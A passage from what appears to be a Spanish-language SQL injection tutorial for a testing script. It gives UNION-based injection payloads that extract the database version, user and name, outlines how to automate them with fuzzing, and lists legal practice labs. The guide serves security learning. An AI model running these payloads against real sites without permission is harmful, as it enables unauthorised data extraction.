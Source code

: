 Una vez descubierta una vulnerabilidad, puedes intentar extraer información como:

- Versión de la base de datos: `version()`
- Usuario actual: `user()`
- Base de datos actual: `database()`

#### 🔥 Ejemplo de payload con extracción:

```sql
?id=1' UNION SELECT NULL, version()--
```

---

### 🧠 ¿Cómo automatizar eso en el script?

Puedes modificar el payload para buscar información:

```python
' AND 1=2 UNION SELECT NULL, user()--
' AND 1=2 UNION SELECT NULL, database()--
```

Y ver si en la respuesta aparece algo como:

```
root@localhost
```

---

### 🛡️ Recomendaciones

- Usa esto **solo en entornos de pruebas** o con **permiso legal**.
- Este script puede evolucionar en una herramienta completa que:

  - Use diccionarios de payloads.
  - Pruebe SQLi booleano y ciego.
  - Automatice fuzzing con hilos.
  - Exporta resultados a CSV o HTML.

---

### 🧪 Plataformas donde practicar

| Plataforma                                                             | Tipo de práctica         |
| ---------------------------------------------------------------------- | ------------------------ |
| [DVWA](https://github.com/digininja/DVWA)                              | Local, vulnerable        |
| [bWAPP](http://www.itsecgames.com/)                                    | Local, vulnerable        |
| [HackTheBox](https://www.hackthebox.com/)                              | CTF real, legal          |
| [TryHackMe](https://tryhackme.com/)                                    | Guías paso a paso        |
| [PortSwigger Labs](https://portswigger.net/web-security/sql-injection) | Laboratorios controlados |

---